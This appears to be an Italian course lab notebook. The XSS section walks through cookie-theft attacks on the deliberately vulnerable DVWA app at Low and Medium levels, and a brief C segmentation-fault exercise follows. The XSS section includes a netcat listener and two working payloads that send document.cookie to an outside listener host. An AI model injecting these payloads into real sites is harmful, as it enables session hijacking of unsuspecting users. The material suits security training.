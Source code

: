 ## Giorno 2: Exploit XSS Persistente su DVWA (Low e Medium)

### Obiettivo
Simulare il furto di cookie di sessione sfruttando vulnerabilità XSS.

### Requisiti
- DVWA configurato e funzionante.
- Server di ascolto (Kali Linux) configurato sulla porta `4444`.

### Parte 1: Modalità Low

#### Passaggi
1. Configura il server di ascolto su Kali Linux:
   ```bash
   nc -lvnp 4444
   ```
2. Vai alla sezione XSS Persistente:
   - URL: `http://192.168.13.150/dvwa/vulnerabilities/xss_r/`
3. Inserisci il seguente payload:
   ```html
   <script>
     fetch('http://192.168.13.100:4444', { method: 'POST', body: document.cookie });
   </script>
   ```
4. Verifica i cookie ricevuti nel terminale di Kali Linux.

### Parte 2: Modalità Medium

#### Passaggi
1. Configura il server di ascolto su Kali Linux:
   ```bash
   nc -lvnp 4444
   ```
2. Vai alla sezione XSS Persistente:
   - URL: `http://192.168.13.150/dvwa/vulnerabilities/xss_r/`
3. Inserisci il seguente payload:
   ```html
   <img src="nonexistent.jpg" onerror="fetch('http://192.168.50.165:4444', {method: 'POST', body: document.cookie})">
   ```
4. Verifica i cookie ricevuti nel terminale di Kali Linux.

---

## Giorno 3: Simulazione di Segmentation Fault in C

### Obiettivo
Comprendere gli errori di memoria attraverso l'uso di segmentation fault.

### Programma Originale
1. Inserire 10 numeri interi in un array.
2. Ordinare i numeri in ordine crescente.
3. Visualizzare i numeri ordinati.
